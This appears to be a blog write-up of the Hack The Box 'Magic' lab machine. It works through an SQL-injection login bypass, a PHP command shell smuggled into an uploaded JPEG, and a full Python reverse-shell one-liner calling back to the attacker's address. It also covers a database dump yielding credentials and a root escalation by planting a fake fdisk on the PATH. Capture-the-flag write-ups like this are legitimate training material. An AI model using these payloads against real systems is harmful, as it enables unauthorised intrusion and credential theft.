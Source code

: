 ```yaml
---
title: Magic Writeup
author: mooncakeza
date: 2020-04-20 11:30am
categories: [hackthebox]
tags: [hackthebox, writeup, magic]
math: true
image: /assets/img/htb/Magic/magic_infocard.png
---
```


<p>Let's do a NMAP scan</p>

![dekstop](/assets/img/htb/Magic/01_nmap.png)

<p>
Browsing to http://10.10.10.185 we get a page with images and on the bottom left a login to upload images.
</p>

![dekstop](/assets/img/htb/Magic/02_login_message.png)

<p>
Let's click on the login link.
</p>

![dekstop](/assets/img/htb/Magic/03_login_blank.png)

<p>
I tried default top 10 usernames and passwords combos but nothing.
<br>
Since we have no credentials, we can try SQL injection
<br>
username: 'or '1'='1
<br>
password: 'or '1'='1
</p>

![dekstop](/assets/img/htb/Magic/04_login_sql.png)

<p>

We get prompted with an upload page for images.

</p>

![dekstop](/assets/img/htb/Magic/05_upload_img.png)

<p>

Let's see what can be uploaded. Let's just click upload.

</p>

![dekstop](/assets/img/htb/Magic/06_upload_img_error.png)

<p>

Only JPG, JPEG and PNG files are allowed. We need to bypass the filter.
<br>
Let's first upload a JPEG file and see where it saves it to.
<br>
When we upload a picture it adds it to the front page on the slider and so we can right click to view image and we can see it saves it under http://10.10.10.185/images/uploads/
<br>
Now let's do some magic
<br>
Take any JPG,JPEG or PNG inject it with some code and then rename the file.

</p>

![dekstop](/assets/img/htb/Magic/07_cmd_image_insert.png)

<p>

Upload this file via the upload page
<br>
In another terminal run nc -lvnp 9991
<br>
The only payload I found to work was the python method
<br>
Now point your browser or use curl to the following URL
<br>
http://10.10.10.185/images/uploads/lordcommander.php.jpeg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",9991));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

</p>

![dekstop](/assets/img/htb/Magic/08_img_rev_shell.png)

<p>

We have a shell!
<br>
Let's get an interactive shell

<p>

<ol><li>python -c 'import pty; pty.spawn("/bin/bash")'</li><li>ctrl + z (put's the nc into the background)</li><li>echo $TERM (this gets what your term is set as)</li><li>stty -a (this gets your windows size)</li><li>stty raw -echo (NOTE: you will not see any output after this)</li><li>fg (go back to the nc)</li><li>reset (this resets the terminal settings on the remote machine</li><li>In the Terminal type, type in the $TERM output you got, in my case it was xterm-256color. </li></ol>
<br>
NOTE: as of recent, this method I found has not been working as intended and sometimes hands the termminal. 
</p>

<p>

After enumerating a bit we get the following.

</p>

![dekstop](/assets/img/htb/Magic/09_db_details.png)

<p>

I tried to use the password to login via ssh and su but both failed.
<br>
This is not the password for the user.
<br>
Let's enumerate the database. There is no mysql client installed so the only way now is to do a mysqldump.

</p>

![dekstop](/assets/img/htb/Magic/10_db_dump.png)

<p>

We then find this in the dump.

</p>

![dekstop](/assets/img/htb/Magic/11_db_creds.png)

<p>

We have some creds. Password reuse?
<br>
Let us just su to the user with the password.

</p>


![dekstop](/assets/img/htb/Magic/12_user_login_png.png)

<p>

user flag achieved!
<br>
Now for root.
<br>
We first have to upload some enumerating scripts.
<br>
I uploaded both LinEnum and LinPEAS and found this pretty interesting:

</p>

![dekstop](/assets/img/htb/Magic/13_exec_files.png)

<p> 

/bin/sysinfo is executable and the user group has permissions to run it.
<br>
There is another tool called pspy64 which monitors linux processes and we can use this to see what sysinfo does in the background. So we run /bin/sysinfo and monitor pspy64 and see the following.

</p>

![dekstop](/assets/img/htb/Magic/14_fdisk.png)

<p>

sysinfo calls a few files and seems like we can inject our own path to point to a custom created fdisk file to maybe create a reverse shell?
<br>
First in another terminal run our nc -lvnp 9994 
<br>
Back to the magic terminal and let us add /tmp into the system PATH
<br>
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin:/usr/games:/usr/local/games:/snap/bin:/tmp
<br>
We then create a file in /tmp with the following.

</p>

![dekstop](/assets/img/htb/Magic/15_python_shell.png)

<p>

Make it executable and then run /bin/sysinfo again and we watch pspy64.

</p>

![dekstop](/assets/img/htb/Magic/16_run_script.png)

<p>

You can see it has now executed our code from the fdisk file we created in the /tmp directory instead of the actual operating system's fdisk!
<br>
Let us pop to the terminal where we can our nc.

</p>

![dekstop](/assets/img/htb/Magic/17_shell_pop.png)

<p>

WE HAVE ROOT!

</p>
